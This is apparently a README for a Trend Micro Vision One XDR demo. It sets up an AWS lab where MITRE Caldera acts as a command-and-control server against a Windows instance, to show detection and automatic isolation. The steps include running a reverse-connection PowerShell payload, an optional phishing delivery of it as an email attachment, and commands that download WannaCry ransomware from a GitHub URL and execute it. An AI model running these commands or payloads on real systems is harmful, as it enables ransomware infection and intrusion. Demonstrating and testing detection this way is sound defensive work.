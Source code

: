 # Trend Micro Vision One Demo
---------------
__Requirements:

Windows/Mac/Linux OS
- AWS Account
- RDP/SSH Client
- Google Chrome or Mozilla Firefox


--------------------------------
__Prepaing the Demo Environment:

- Deploy the Cloud Formation Template (Make sure you are using the us-west-1 region). The following information has to be provided:

-Stack name - Name of the stack you are creating (example XDR-Demo)

-KeyName - KeyPar to be used when creating the EC2 Instances

-Platform - Select the appropriate platform (VisionOne, C1WS or ApexOne). Based on your selection, the following information has be provided

--PlatformURL - If you selected ApexOne or VisionOne, add the AgentInstallationURL (ApexOne Agent Installer or VisionOne Basecamp)

--TenantID and Token - If you selected C1WS, you have to get the TennantID and Token to be used installing and activating the agent. You can get this information using the C1WS > Deployment Scripts


-------------------------------
__Testing the demo environment:

After the CFT deployment is finished, you need to access the Windows Instance using RDP. You can get the credentials following the procedure described here https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/connecting_to_windows_instance.html

After connecting to your RDP Session, make sure you can access the Caldera Management Console (http://linux-ip). username/password - admin/admin)

Also, you must make sure the Windows Instance is registered in your VisionOne/ApexOne/C1WS Management Console. Also, make sure the EDR feature is enabled (This will require a specific policy -for ApexOne or C1WS- or the EDR feature to be enabled manually, in case you are using VisionOne).

Using the VisionOne Portal, you must make sure that you have created a Secure Access Rule to automatically isolate devices with a (persistent) Risk Level of 60 or Higher (once matched).


--------------------------------
__What to expect from this demo:

This demo script was created to demonstrate the following use case:

+ Attacker trying to get the control of an Windows Instance

+ Attacker is using Mitre Caldera as C&C Server

++ Using Mitre Caldera, the Attacker will generate one malicious payload (powershell). This malicious payload will generate a reverse connection between the Windows Instance and the C&C Server.

++ The Attacker, using the Mitre Caldera, will use the tools available on Mitre Caldera to start checking some conditions and extracting sensitive data from the Windows Computer

++ The Trend Micro XDR agent is monitoring all the actions happening to the Windows Computer. The Risk Level of this device is increasing and it is becoming of of the riskiest devices of this demo environment.

++ The attacker will finish the attack encrypting the Windows Device, to make the impact of this attack even bigger.

++ Because of the policies in place, once the device' risk level reaches 60, the Windows Device will be automatically isolated.


--------------
__How to demo:

1- Open the RDP Session and show the basecamp components running on background;

2- Open the VisionOne Dashboard, and show the Actual Risk Level of this Windows Computer;

3- Open the Mitre Caldera Management Console, and create a new malicious payload

--Navigate > Agents > Click Here to Deploy an Agent > Select the "54ndc47" agent and Select the Windows Platform
--Replace the "app.contact.http" information with the Linux IP Address (example http://linux-ip)
--Copy the Powershell script created for this agent

4- Execute the powershell script on the Windows Instance


-----
Optional (in case you want to demonstrate it in conjunction with CAS)
4- Access the following website https://ps2exe.azurewebsites.net/ and generate an executable file using the powershell script you've copied in the previous step
4.1- Send an email with the malicious attachment to the target user
-----

5- After you execute the PS script on the Windows Instance, you will find a new Client connected to the Mitre Caldera Portal (You can find it on Navigate > Agents menu)

6- Now selecte the Navigate > Operations menu. We will use this option to start the operation following that Demo Script described previously on this page.

7- Select the New Operation (name it as DemoXDR)

8- Select the option Manual Command > Select your Agent > Run the command "Hostname". You will notice that after 1 minute +- the status of this request will become green. That means the command was executed successfuly. You can check the output clicking on the "star" icon, in the right side of the command you executed.

9- Now select the option named "Potential Links". Using this option you can search through the Mitre Techniques, and test them as you believe will generate the best impact (based on the objectives you have for this demo).

10- The following Mitre Techniques can help you to increase the risk level of the Windows Machine quickly, so if you want, this could be the best path to follow and have the Automated Response actions triggered.

10.1- T1059.001, T1059.001, T1113, T1115, T1105, T1105, T1003.001, T1055.002, T1003.001, T1059.001, T1059.001, T1548.002, T1496, T1491

11- Check the VisionOne Portal, wait for the new logs (+-5 minutes) and look to the Risk Level of the Windows Instance. The number is increasing, right?

12- Check now the Observed Attack Techniques and the Workbenches. You will also find many detections! Its a good moment to show to your customer how to investigate and find what was detected or not by VisionOne.

13- After you showed all the information detected by VisionOne, it's time to drop the Ransomware file to the Windows Machine, and make sure the ransomware was executed successfuly.

13.1- To do that, select the Navigate > Operations. Create a new Operation named Ransomware.

13.2- Select the "Manual Command" Option, Select your target, then select the PS> interpreter.

13.3- Run the following commands "Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile wcry.exe"

14.4- After the first command was successfuly executed, run the next command "Start-Process wcry.exe"

15- If you check the Windows Instance a few seconds later, you will find the machine is encrypted. In a 5 minutes period of time, if the Secure Access Rules you've created is enabled, you should lost the RDP Access to your Windows Instance. That means the VisionOne was able to detect the changes on the Risk Level, and then followed with the automated isolation for any devices with risk level >=60.

16- You can check the detection logs and actions using the VisionOne Portal. You can go through the Device Risk Level, Workbenches, Observed Attack Techniques and Response Management menus, which will highlight all the detections and actions takes due to this new high risk computer detected during this demo.






